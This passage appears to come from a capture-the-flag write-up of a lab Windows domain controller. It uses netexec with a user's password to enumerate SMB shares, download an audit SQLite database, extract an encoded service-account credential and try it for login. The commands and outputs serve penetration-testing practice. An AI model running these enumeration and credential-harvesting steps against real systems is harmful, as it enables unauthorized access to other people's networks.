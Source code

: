 Now let’s enumerate again s.smith’s permission:

```bash
nxc smb 10.10.10.182 -u s.smith -p sT333ve2 --shares

interesting result:
 Audit$          READ

```

Let’s enumerate the Audit$ share:

```bash
nxc smb 10.10.10.182 -u s.smith -p sT333ve2 --spider Audit$ --regex .

result:
SMB         10.10.10.182    445    CASC-DC1         //10.10.10.182/Audit$/CascAudit.exe [lastm:'2020-01-28 21:47' size:13312]
SMB         10.10.10.182    445    CASC-DC1         //10.10.10.182/Audit$/CascCrypto.dll [lastm:'2020-01-29 18:01' size:12288]
SMB         10.10.10.182    445    CASC-DC1         //10.10.10.182/Audit$/RunAudit.bat [lastm:'2020-01-28 23:29' size:45]
SMB         10.10.10.182    445    CASC-DC1         //10.10.10.182/Audit$/System.Data.SQLite.dll [lastm:'2020-01-28 20:42' size:363520]
SMB         10.10.10.182    445    CASC-DC1         //10.10.10.182/Audit$/System.Data.SQLite.EF6.dll [lastm:'2020-01-28 20:42' size:186880]
SMB         10.10.10.182    445    CASC-DC1         //10.10.10.182/Audit$/DB/Audit.db [lastm:'2020-01-28 21:43' size:24576]
SMB         10.10.10.182    445    CASC-DC1         //10.10.10.182/Audit$/x64/SQLite.Interop.dll [lastm:'2020-01-28 20:42' size:1639936]
SMB         10.10.10.182    445    CASC-DC1         //10.10.10.182/Audit$/x86/SQLite.Interop.dll [lastm:'2020-01-28 20:42' size:1246720]

```

Seems to be a sqlite database. Let’s download that and see if we can get any credential:

```bash
nxc smb 10.10.10.182 -u s.smith -p sT333ve2 --share Audit$ --get-file DB/Audit.db Audit.db

sqlite3 Audit.db .dump

result:
INSERT INTO Ldap VALUES(1,'ArkSvc','BQO5l5Kj9MdErXx6Q6AGOw==','cascade.local');

```

Again, that seems to be base64:

```bash
echo 'BQO5l5Kj9MdErXx6Q6AGOw==' | base64 -d 
```

```bash
nxc smb 10.10.10.182 -u ArkSvc -p 'BQO5l5Kj9MdErXx6Q6AGOw=='
```

